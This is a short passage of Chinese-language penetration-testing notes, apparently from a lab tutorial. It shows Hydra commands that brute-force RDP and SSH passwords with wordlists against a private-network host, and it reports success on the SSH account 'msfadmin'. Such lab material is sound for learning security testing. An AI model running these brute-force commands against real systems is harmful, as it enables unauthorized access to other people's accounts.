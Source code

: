 ![](./image/tools/wps5.jpg) 

 成功  

![](./image/tools/wps6.jpg) 

```
 破解rdp：   （   会误报   有问题，不能用）  
 hydra -l administrator -P telnetPass.txt -t 30 -vV -e ns rdp://192.168.149.193  
```



![](./image/tools/wps7.jpg) 

```
 使用hydra破解ssh的密码  
 hydra -l msfadmin -P sshPass.txt -t 30 -vV -e ns ssh://192.168.149.193  
```



![](./image/tools/wps8.jpg) 

 成功  

![](./image/tools/wps9.jpg) 
